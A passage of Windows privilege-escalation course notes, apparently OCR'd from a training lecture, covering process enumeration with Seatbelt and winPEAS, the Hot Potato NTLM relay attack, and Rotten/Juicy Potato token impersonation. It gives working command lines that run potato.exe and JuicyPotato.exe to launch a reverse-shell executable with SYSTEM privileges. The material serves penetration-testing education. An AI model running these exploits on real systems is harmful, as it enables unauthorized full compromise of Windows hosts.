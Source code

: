 #### Manually enumerate all running programs:
```
tasklist /v
```

#### Use seatbelt or winPEAS to enumerate nonstandard processes
```
.\seatbelt.exe NonstandardProcesses
.\winPEASany.exe quiet procesinfo
```

## Hot potato
Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges. The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution. This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.

1. Copy the potato.exe exploit executable over to Windows.
2. Start a listener on Kali.
3. Run the exploit: ```.\potato.exe -ip <IP> -cmd "C:\temp\reverse.exe" - enable_httpserver true -enable_defender true -enable_spoof true - enable_exhaust true```
4. Wait for a Windows Defender update, or trigger one manually.

## Token impersonation
### Service accounts
We briefly talked about service accounts at the start of the course. Service accounts can be given special privileges in order for them to run their services, and cannot be logged into directly. Unfortunately, multiple problems have been found with service accounts, making them easier to escalate privileges with.

### Rotten potato
The original Rotten Potato exploit was identified in 2016. Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user. This was possible because service accounts usually have the “SeImpersonatePrivilege” privilege enabled.

#### SeImpersonate / SeAssignPrimaryToken
Service accounts are generally configured with these two privileges. They allow the account to impersonate the access tokens of other users (including the SYSTEM user). Any user with these privileges can run the token impersonation exploits in this lecture.

### Juicy potato
- https://github.com/ohpe/juicy-potato
Rotten Potato was quite a limited exploit. Juicy Potato works in the same way as Rotten Potato, but the authors did extensive research and found many more ways to exploit.

#### Run the JuicyPotato exploit to trigger a reverse shell running with SYSTEM privileges:
If the CLSID ({03ca…) doesn’t work for you, either check this list: https://github.com/ohpe/juicy-potato/blob
```
C:\PrivEsc\JuicyPotato.exe -l 1337 -p C:\temp\reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```
